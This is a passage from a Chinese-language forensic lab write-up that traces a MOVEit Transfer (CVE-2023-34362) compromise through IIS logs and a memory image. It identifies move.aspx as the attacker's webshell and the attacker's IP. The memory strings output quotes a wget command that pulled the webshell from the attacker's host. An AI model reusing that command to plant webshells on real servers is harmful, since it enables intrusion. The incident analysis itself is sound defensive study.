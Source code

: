 结合 `CVE-2023-34362` 漏洞的利用信息，可以发现攻击流量 `['/machine2.aspx', 'CWinInetHTTPClient']`

同时在后续的流量中，定位到以下记录

```plaintext
2023-07-12 11:24:43 10.10.0.25 GET /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 - 200 0 0 1179
2023-07-12 11:24:47 10.10.0.25 POST /move.aspx - 443 - 10.255.254.3 Mozilla/5.0+(X11;+Linux+x86_64;+rv:102.0)+Gecko/20100101+Firefox/102.0 https://moveit.htb/move.aspx 200 0 0 159
```

文件名很符合答案掩码，同时 aspx 符合 webshell 的部署常用格式，并且这个 filename 并非 `MOVEit` 服务的一部分

在 `TimelineExplorer` 中查找这个文件

![img](img/image_20240316-231617.png)

```plaintext title="Answer"
move.aspx
```

## Task 2

> 攻击者的 IP 地址是什么？

上一题中 `move.aspx` 文件，在内存中进行查找

```shell
Randark@DESKTOP-7HGIVVS MINGW64 /d/Downloads/iliketo
$ strings I-like-to-27a787c5.vmem | grep "move.aspx"
http://10.255.254.3:9001/move.aspx
http://10.255.254.3:9001/move.aspx
[33mhttp://10.255.254.3:9001/move.aspx
wget http://10.255.254.3:9001/move.aspx -OutFil
c:\MOVEitTransfer\wwwroot\move.aspx
c:\moveittransfer\wwwroot\move.aspx
......
```
